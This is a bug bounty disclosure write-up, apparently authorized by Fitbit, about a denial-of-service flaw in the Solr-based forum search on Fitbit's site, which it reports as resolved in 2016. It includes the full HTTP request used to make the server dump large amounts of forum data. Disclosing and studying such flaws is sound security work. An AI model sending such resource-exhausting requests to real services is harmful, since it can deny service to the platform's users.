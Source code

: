 ```
Authorized Bug Bounty Disclosure
Target: Fitbit.com
Bug Type: Denial of Service
Disclosure Verification: Fitbit Authorized Disclosure on 03-09-2018
```
### Summary
Identified a method to queue up and download gigabytes, if not terabytes of data from Fitbit forums through one web request :flushed:

### Notes:
Fitbit was extremely responsive and resolved this in a timely manner :smiley:

### What
This is a location permission bug through Fitbit's implementation of solr/Lucene which enabled certain parameters to be manipulated.
It was super interesting to research that tech, which is detailed <a href="http://lucene.apache.org/solr/">here</a>.
Normally DOS (denial of service) is not within scope, however this was submitted as a general bug - with DOS potential ;)

### When
Bug discovered: 2016-05-05<br>
Bug Resolved: 2016-11-07

### How
Using the payload below at [fitbit.com/search/solrForum], the server request responds by dumping a specified amount of forum data:<br>
```
GET /search/solrForum?q=a&start=1&rows=9999&fq=(postStatus:0%20AND%20topicStatus:0) HTTP/1.1
Host: www.fitbit.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
```

### Where
It took a while to find the location, but though some research on the component, the services used were able to be identified. :sweat:

### Why
This is an issue where if utilized maliciously, could potentially cause a denial of service on the Fitbit platforms.


